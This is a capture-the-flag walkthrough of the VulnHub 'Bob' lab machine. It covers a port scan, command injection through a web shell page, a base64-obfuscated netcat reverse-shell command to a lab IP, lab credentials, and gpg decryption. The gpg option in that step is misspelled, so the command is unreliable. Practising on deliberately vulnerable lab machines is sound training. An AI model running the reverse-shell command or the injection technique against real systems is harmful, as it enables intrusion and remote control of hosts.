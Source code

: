 ```yaml
---
title: Bob
categories: [VulnHub]
tags: [Command Injection, gpg, Recon, PrivEsc]
image:
  path: /Vulnhub-Files/img/Bob/Untitled%203.png
  alt: Bob Machine !
---
```


## **Description ⤵️**


> 💡 **Difficulty: Beginner/Intermediate →** [Bob](https://vulnhub.com/entry/bob-101,226/)<br>
<br>
    Bob is my first CTF VM that I have ever made so be easy on me if it is not perfect.
<br><br>
    The Milburg Highschool Server has just been attacked, the IT staff have taken down their windows server and are now setting up a linux server running Debian. Could there a few weak points in the new unfinished server?
<br>
____
<br>
<br>
    Your Goal is to get the flag in /
<br>
    Hints: Remember to look for hidden info/files
<br>
    ## Changelog v1.0 ~ 2018-03-07 v1.0.1 ~ 2018-03-09
{: .prompt-info }

#### Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/Bob/Untitled.png)

```bash
IP : 10.0.2.18
```
{: .nolineno}
{: .nolineno}

## Port Scan Results ➡️

![Untitled](/Vulnhub-Files/img/Bob/Untitled%201.png)

![Untitled](/Vulnhub-Files/img/Bob/Untitled%202.png)

```bash
OPEN PORTS >
80     HTTP (Enumeration Further !)
25468  SSH  (Hiding the ssh port from changing it is good strategy !)
```
{: .nolineno}
{: .nolineno}

___

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Bob/Untitled%203.png)

Lets check the robots.txt file →

![Untitled](/Vulnhub-Files/img/Bob/Untitled%204.png)

I will be preparing this payload for checking the `dev_shell.php` file field path with command injection.

![Untitled](/Vulnhub-Files/img/Bob/Untitled%205.png)

![Untitled](/Vulnhub-Files/img/Bob/Untitled%206.png)

Lets try to get the output now → `for command : id`

![Untitled](/Vulnhub-Files/img/Bob/Untitled%207.png)

Lets try to generate reverse shell from it →

![Untitled](/Vulnhub-Files/img/Bob/Untitled%208.png)

Now let is try the reverse shell Now →

```bash
command ->
echo "bmMgMTAuMC4yLjEwIDQ0NDQgLWUgL2Jpbi9iYXNoCg==" | base64 -d | bash
```
{: .nolineno}
{: .nolineno}

![Untitled](/Vulnhub-Files/img/Bob/Untitled%209.png)

Look what  I found →

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2010.png)

```bash
jc	:	Qwerty
seb	:	T1tanium_Pa$$word_Hack3rs_Fear_M3
```
{: .nolineno}
{: .nolineno}

## SSH SHELL ⤵️

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2011.png)

While further enumeration I got the cred for elliot user from its directory.

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2012.png)

```bash
elliot  :  theadminisdumb
```
{: .nolineno}
{: .nolineno}

After very much enumeration of directories  I got this folder and The secret part was the `HARPOCRATES`

`Harpocrates` was the Greek god of silence, secrets, and confidentiality.

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2013.png)

Now for extracting this I used this parapharase →

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2014.png)

```bash
gpg login.txt.gpg
gpg --batch --paraphrase HARPOCRATES -d login.txt.gpg
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2015.png)
_Extracted the password of another user names bob._

```bash
And I got this credential →
bob	:	b0bcat_
```
{: .nolineno}
{: .nolineno}

Lets see how bob can lead us to root —>

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2016.png)

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2017.png)

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2018.png)
<br>
<br>
<br>
___

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }